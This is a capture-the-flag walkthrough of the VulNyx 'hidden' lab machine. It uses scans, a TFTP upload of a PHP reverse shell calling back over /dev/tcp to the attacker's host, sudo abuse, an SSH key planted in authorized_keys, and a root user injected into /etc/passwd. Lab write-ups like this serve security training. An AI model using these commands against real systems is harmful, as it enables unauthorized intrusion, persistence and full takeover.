

# hidden

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| hidden | d4t4s3c | Easy | VulNyx |

**Summary:** The hidden machine exposed an Apache web server on port 80 and OpenSSH on port 22, but the critical attack surface was a TFTP service discovered through UDP scanning on port 69. The TFTP service allowed unauthenticated file uploads directly into the web root, so a PHP reverse shell was uploaded and triggered to obtain a foothold as `www-data`. Sudo enumeration revealed that `www-data` could run `/usr/bin/dash` as user `satan` without a password, providing lateral movement into the `satan` account. Further sudo checks showed that `satan` could execute both `/usr/bin/geany` and `/usr/bin/xauth` as root. Since the initial reverse shell provided no X11 display, an SSH session with X11 forwarding was established to enable Geany's graphical interface, and after transferring the MIT magic cookie to the root context through `sudo xauth add`, Geany was launched as root with `sudo DISPLAY=localhost:10.0 geany`. With the editor running as root, the `/etc/passwd` file was edited to inject a new user `r00t` with a precomputed password hash, and switching to that user with `su` delivered a full root shell for flag retrieval.

---

## Reconnaissance

The engagement began by locating the target on the local network and enumerating its TCP and UDP attack surfaces.

1. An Nmap host discovery sweep identified the target at `192.168.56.159`:

```zsh
~/projects/labs/nyx                                                                19:05:22  
❯ nmap -sn -PR 192.168.56.0/24            
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-02 19:06 +0700  
Nmap scan report for 192.168.56.1  
Host is up (0.00043s latency).  
Nmap scan report for 192.168.56.100  
Host is up (0.0016s latency).  
Nmap scan report for 192.168.56.159  
Host is up (0.0041s latency).  
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.72 seconds  
  
~/projects/labs/nyx                                                                19:06:24  
❯ ip=192.168.56.159  
```

2. A full TCP scan with service detection found only SSH and HTTP:

```zsh
~/projects/labs/nyx                                                                19:07:10  
❯ nmap -p- -Pn -sCV -T4 --min-rate 5000 $ip    
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-02 19:07 +0700  
Nmap scan report for 192.168.56.159  
Host is up (0.00017s latency).  
Not shown: 65533 closed tcp ports (conn-refused)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)  
| ssh-hostkey:   
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)  
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)  
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)  
80/tcp open  http    Apache httpd 2.4.56 ((Debian))  
|_http-title: Apache2 Debian Default Page: It works  
|_http-server-header: Apache/2.4.56 (Debian)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 8.96 seconds  
```

3. A UDP scan against the top 100 ports uncovered a TFTP service on port 69:

```zsh
~/projects/wu/vulnyx-writeups main*                                            19:09:14  
❯ sudo nmap -sU --top-ports 100 -T4 $ip               
[sudo] password for setyanoegraha:    
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-02 19:09 +0700  
Warning: 192.168.56.159 giving up on port because retransmission cap hit (6).  
Nmap scan report for 192.168.56.159  
Host is up (0.00065s latency).  
Not shown: 97 closed udp ports (port-unreach)  
PORT     STATE         SERVICE  
68/udp   open|filtered dhcpc  
69/udp   open|filtered tftp  
2049/udp open|filtered nfs  
MAC Address: 08:00:27:EA:E3:27 (Oracle VirtualBox virtual NIC)  
  
Nmap done: 1 IP address (1 host up) scanned in 102.06 seconds  
```

The TFTP service on port 69 was the key finding. TFTP operates without authentication and typically serves files from a predictable base directory, making it a viable vector for uploading a webshell into the Apache document root.

---

## Initial Access

### TFTP Webshell Upload and Reverse Shell

4. A PHP reverse shell payload was created locally and uploaded to the target through the TFTP service:

```zsh
~/projects/wu/vulnyx-writeups main*                                            19:23:07  
❯ echo '<?php system("bash -c \"bash -i >& /dev/tcp/192.168.56.1/4444 0>&1\""); ?>' > rev.php  
  
~/projects/wu/vulnyx-writeups main*                                            19:23:16  
❯ tftp $ip -c put rev.php  
```

5. A Penelope listener was started on port 4444, and the uploaded payload was triggered through an HTTP request:

```zsh
~/projects/labs/nyx                                                                19:21:24  
❯ penelope -p 4444  
[+] Listening for reverse shells on 0.0.0.0:4444 -> 127.0.0.1 • 192.168.0.6 • 192.168.56.1  
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)  
```

```zsh
~/projects/wu/vulnyx-writeups main*                                            19:23:20  
❯ curl -i http://$ip/rev.php  
```

6. The reverse shell connected as `www-data`, providing the initial foothold:

```zsh
[+] [New Reverse Shell] => hidden 192.168.56.159 Linux-x86_64 👤 www-data(33) 😍 Session ID <1>  
[+] ⭐ Agent deployed via /usr/bin/python3  
[+] Interacting with session [1] • PTY • Menu key F12 ⇐  
[+] Session log: /home/setyanoegraha/.penelope/sessions/hidden~192.168.56.159-Linux-x86_64/2026_09_02-19_23_34-806  
-www-data_33.log  
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────  
www-data@hidden:/var/www/html$ id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
www-data@hidden:/var/www/html$  
```

---

## Lateral Movement

### Abusing sudo dash to Switch to satan

7. Sudo enumeration from the `www-data` shell revealed a passwordless transition to user `satan` through `/usr/bin/dash`:

```zsh
www-data@hidden:/var/www$ sudo -l  
sudo: unable to resolve host hidden: Temporary failure in name resolution  
Matching Defaults entries for www-data on hidden:  
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User www-data may run the following commands on hidden:  
    (satan) NOPASSWD: /usr/bin/dash  
www-data@hidden:/var/www$ sudo -u satan dash  
sudo: unable to resolve host hidden: Temporary failure in name resolution  
$ id  
uid=1000(satan) gid=1000(satan) groups=1000(satan)  
```

8. Sudo enumeration for `satan` showed passwordless access to both `/usr/bin/geany` and `/usr/bin/xauth` as root:

```zsh
$ sudo -l  
sudo: unable to resolve host hidden: Temporary failure in name resolution  
Matching Defaults entries for satan on hidden:  
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User satan may run the following commands on hidden:  
    (ALL : ALL) NOPASSWD: /usr/bin/geany, /usr/bin/xauth  
```

Since the current session was a non interactive reverse shell with no X11 display, an SSH connection with X11 forwarding was established to enable Geany's graphical interface.

9. An SSH key pair was generated on the attacker machine, and the public key was deployed into `satan`'s authorized keys through the existing shell:

```zsh
~/projects/labs/nyx                                                                19:40:05  
❯ ssh-keygen -t rsa -f /tmp/hidden_key -N ""  
Generating public/private rsa key pair.  
Your identification has been saved in /tmp/hidden_key  
Your public key has been saved in /tmp/hidden_key.pub  
The key fingerprint is:  
SHA256:K7Iv+TE/zLAHiorlYqD9wh9f1XuC5PZE8eSeRCmcxQA setyanoegraha@archlinux  
The key's randomart image is:  
+---[RSA 3072]----+  
|          E..o.  |  
|           . o.. |  
|            = +  |  
|           . B   |  
|        S o o +  |  
|.     o  = o + . |  
|oo..oo+*o + + +  |  
|++= +=.*=. o o   |  
|+o.++++...  .    |  
+----[SHA256]-----+  
  
~/projects/labs/nyx                                                                19:40:07  
❯ cat /tmp/hidden_key.pub     
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDIfrXE7B3gZep5HZe6fSLizxx2FicPibFtCmzTRaF5nbrBt4L7qp4ehcrE5UTfa4TjXD4Sl/ZF9QjcdtWqRMhcnX/4XmSL1gO4UuUWCdc4AoAngDfL5ild4276iMnX6inPUaNpz1oILG/U2fx6fRQXnkqxKXmxk2d9DmjHvycvfLzP1lhZ2rkyZotK9K58OHv9dJW0VU0R4SiUHESnu8JYn0Oqyza33MklgjQWbvTKuBcfoqssJ2ntg14y1DIGZ4NuqmJqpX8c1xfOuDWyFD0FjB6oHGxk0kSkzhro0QUCX+6TZbCuERT9lySpsx3ggtUWmcR48uyOoVabUaMty7hrEGyFfGm34LS5irO576GST7SpdtSaeyinAFHw0RquD0eV/qCmyQ6HPzq9vBXVPvmO2teqcgaPniur9wCUaO+rBW2ly/ROYZtvH3xZf6xK94yMr6zCXjZZmg69YUJV6BjYUXGtvQm6jRBL5Iv9VT1uCACzM/yq/FcXaDNVp0rEEQM= setyanoegraha@archlinux  
```

```zsh
$ mkdir -p ~/.ssh  
$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDIfrXE7B3gZep5HZe6fSLizxx2FicPibFtCmzTRaF5nbrBt4L7qp4ehcrE5UTfa4TjXD4Sl/ZF9QjcdtWqRMhcnX/4XmSL1gO4UuUWCdc4AoAngDfL5ild4276iMnX6inPUaNpz1oILG/U2fx6fRQXnkqxKXmxk2d9DmjHvycvfLzP1lhZ2rkyZotK9K58OHv9dJW0VU0R4SiUHESnu8JYn0Oqyza33MklgjQWbvTKuBcfoqssJ2ntg14y1DIGZ4NuqmJqpX8c1xfOuDWyFD0FjB6oHGxk0kSkzhro0QUCX+6TZbCuERT9lySpsx3ggtUWmcR48uyOoVabUaMty7hrEGyFfGm34LS5irO576GST7SpdtSaeyinAFHw0RquD0eV/qCmyQ6HPzq9vBXVPvmO2teqcgaPniur9wCUaO+rBW2ly/ROYZtvH3xZf6xK94yMr6zCXjZZmg69YUJV6BjYUXGtvQm6jRBL5Iv9VT1uCACzM/yq/FcXaDNVp0rEEQM= setyanoegraha@archlinux  
' > ~/.ssh/authorized_keys  
$ chmod 700 ~/.ssh  
$ chmod 600 ~/.ssh/authorized_keys  
```

10. An SSH session with X11 forwarding was established, and the MIT magic cookie was transferred to the root context to enable Geany to connect to the display:

```zsh
~/projects/labs/nyx                                                                19:40:32  
❯ ssh -X -i /tmp/hidden_key satan@$ip         
The authenticity of host '192.168.56.159 (192.168.56.159)' can't be established.  
ED25519 key fingerprint is: SHA256:3dqq7f/jDEeGxYQnF2zHbpzEtjjY49/5PvV5/4MMqns  
This host key is known by the following other names/addresses:  
    ~/.ssh/known_hosts:8: 192.168.56.111  
    ~/.ssh/known_hosts:10: 192.168.56.113  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '192.168.56.159' (ED25519) to the list of known hosts.  
** WARNING: connection is not using a post-quantum key exchange algorithm.  
** This session may be vulnerable to "store now, decrypt later" attacks.  
** The server may need to be upgraded. See https://openssh.com/pq.html  
Linux hidden 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64  
Last login: Mon May  1 13:39:39 2023 from 192.168.1.10  
/usr/bin/xauth:  file /home/satan/.Xauthority does not exist  
satan@hidden:~$ echo $DISPLAY  
localhost:10.0  
satan@hidden:~$ sudo geany  
sudo: unable to resolve host hidden: Fallo temporal en la resolución del nombre  
X11 connection rejected because of wrong authentication.  
Unable to init server: No se pudo conectar: Conexión rehusada  
Geany: cannot open display  
satan@hidden:~$ xauth list  
hidden/unix:10  MIT-MAGIC-COOKIE-1  51856491c26d2b9bfe87c4e8b0a7372a  
satan@hidden:~$ sudo xauth add hidden/unix:10 MIT-MAGIC-COOKIE-1 51856491c26d2b9bfe87c4e8b0a7372a  
sudo: unable to resolve host hidden: Fallo temporal en la resolución del nombre  
xauth:  file /root/.Xauthority does not exist  
satan@hidden:~$ sudo xauth list  
sudo: unable to resolve host hidden: Fallo temporal en la resolución del nombre  
hidden/unix:10  MIT-MAGIC-COOKIE-1  51856491c26d2b9bfe87c4e8b0a7372a  
satan@hidden:~$ sudo DISPLAY=localhost:10.0 geany  
sudo: unable to resolve host hidden: Fallo temporal en la resolución del nombre  
  
(geany:1958): dbind-WARNING **: 14:44:09.300: Couldn't connect to accessibility bus: Failed to connect to socket /  
run/user/1000/at-spi/bus_1: No existe el fichero o el directorio  
```

---

## Privilege Escalation

### Geany Editor Running as Root

11. With Geany launched as root, the editor was used to open `/etc/passwd` and inject a new user `r00t` with a precomputed password hash. An OpenSSL command was used to generate the hash for the password `rooted`:

```zsh
satan@hidden:~$ openssl passwd -1 -salt xyz rooted  
$1$xyz$txYmAcRyLmpCUI5OSYRFi1  
```

The Geany editor, running in the root X11 session, displayed `/etc/passwd` with the new entry `r00t:$1$xyz$txYmAcRyLmpCUI5OSYRFi1:0:0:root:/root:/bin/bash` appended at the bottom:



12. Switching to the newly created `r00t` user delivered a full root shell, and both flags were retrieved:

```zsh
satan@hidden:~$ su - r00t  
Contraseña:    
root@hidden:~# id;whoami;hostname  
uid=0(root) gid=0(root) grupos=0(root)  
root  
hidden  
root@hidden:~# cat /home/satan/user.txt /root/.root.txt   
2cf...  
24f...  
```

---

## Attack Chain Summary

1. **Reconnaissance**: Host discovery identified `192.168.56.159` with SSH and HTTP on TCP, and a TFTP service discovered through UDP scanning on port 69.

2. **Vulnerability Discovery**: The TFTP service allowed unauthenticated file uploads, and the default Apache web root was writable, providing a path to deploy a PHP reverse shell.

3. **Exploitation**: A PHP reverse shell was uploaded via TFTP and triggered with curl, producing a reverse shell as `www-data` on port 4444.

4. **Internal Enumeration**: Sudo rules showed `www-data` could run `dash` as `satan`, and `satan` could run both `geany` and `xauth` as root. SSH with X11 forwarding was established to enable Geany's graphical interface.

5. **Privilege Escalation**: Geany was launched as root through `sudo DISPLAY=localhost:10.0 geany`, and the editor was used to modify `/etc/passwd` to inject a root user, delivering a full root shell.
